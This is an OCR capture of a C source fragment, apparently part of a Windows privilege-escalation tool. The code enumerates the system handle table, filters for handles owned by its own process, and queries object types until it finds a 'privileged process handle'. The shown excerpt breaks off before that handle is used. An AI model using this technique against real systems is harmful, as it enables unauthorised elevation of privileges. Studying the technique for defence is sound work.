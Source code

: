 ```c
    // iterate handles until we find the privileged process handle
    for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

        // Check if this handle belongs to our own process
        if (handle.UniqueProcessId != dwOwnPID)
            continue;

        objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
						ObjectTypeInformation,
						objectTypeInfo,
						0x1000,
						NULL ) != STATUS_SUCCESS)
            continue;

		// skip some objects to avoid getting stuck
		// see: https://github.com/adamdriscoll/PoshInternals/issues/7
        if (handle.GrantedAccess == 0x0012019f
			&& handle.GrantedAccess != 0x00120189
			&& handle.GrantedAccess != 0x120089
			&& handle.GrantedAccess != 0x1A019F ) {
            free(objectTypeInfo);
            continue;
        }

		// get object name information
        objectNameInfo = malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
						ObjectNameInformation,
						objectNameInfo,
						0x1000,
						&returnLength ) != STATUS_SUCCESS) {
            
			// adjust the size of a returned object and query again
			objectNameInfo = realloc(objectNameInfo, returnLength);
            if (pNtQueryObject( (HANDLE) handle.HandleValue,
							ObjectNameInformation,
							objectNameInfo,
							returnLength,
							NULL ) != STATUS_SUCCESS) {
                free(objectTypeInfo);
                free(objectNameInfo);
                continue;
            }
        }

        // check if we've got a process object
        objectName = *(PUNICODE_STRING) objectNameInfo;
        UNICODE_STRING pProcess;

        pRtlInitUnicodeString(&pProcess, L"Process");
        if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
            printf("[+] Found process handle (%x)\n", handle.HandleValue);
            hProc = (HANDLE) handle.HandleValue;
			free(objectTypeInfo);
			free(objectNameInfo);
			break;
        }
        else
            continue;
        
```